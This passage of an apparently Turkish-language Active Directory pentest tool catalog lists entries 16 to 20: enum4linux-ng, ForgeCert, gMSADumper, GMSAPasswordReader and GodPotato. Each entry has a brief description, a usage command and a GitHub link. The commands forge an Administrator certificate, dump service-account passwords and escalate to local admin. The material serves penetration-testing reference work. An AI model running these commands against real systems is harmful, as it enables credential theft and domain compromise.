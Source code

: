 
## 16. enum4linux / enum4linux-ng
**Kısa Tanım**: SMB/NetBIOS/LDAP sorguları ile AD kullanıcı, grup, paylaşımlar, vb. bilgileri listeler.  
**Usage**:
```bash
enum4linux-ng -A 10.0.0.10
```
**GitHub**: [https://github.com/cddmp/enum4linux-ng](https://github.com/cddmp/enum4linux-ng)

---

## 17. ForgeCert
**Kısa Tanım**: Kurumsal PKI (AD CS) ortamında sahte sertifikalar oluşturma aracı.  
**Usage**:
```powershell
ForgeCert.exe /ca:CAName /subject:CN=Administrator
```
**GitHub**: [https://github.com/GhostPack/ForgeCert](https://github.com/GhostPack/ForgeCert)

---

## 18. gMSADumper
**Kısa Tanım**: Group Managed Service Account (gMSA) hesaplarının parolasını (AES) sızdırmayı sağlar.  
**Usage**:
```bash
python3 gMSADumper.py -u 'domain\\admin' -p 'AdminPass' -dc-ip 10.0.0.10
```
**GitHub**: [https://github.com/micahvandeusen/gMSADumper](https://github.com/micahvandeusen/gMSADumper)

---

## 19. GMSAPasswordReader
**Kısa Tanım**: Benzer şekilde gMSA hesap şifrelerini okuyabilen .NET aracı.  
**Usage**:
```powershell
.\GMSAPasswordReader.exe "DOMAIN\gmsaAccountName$"
```
**GitHub**: [https://github.com/FSecureLABS/GMSAPasswordReader](https://github.com/FSecureLABS/GMSAPasswordReader)

---

## 20. GodPotato
**Kısa Tanım**: “Potato” serisi Windows privesc (SeImpersonate) exploitlerden biri.  
**Usage** (Windows):
```powershell
.\GodPotato.exe -cmd "net localgroup administrators user /add"
```
**GitHub**: [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)

---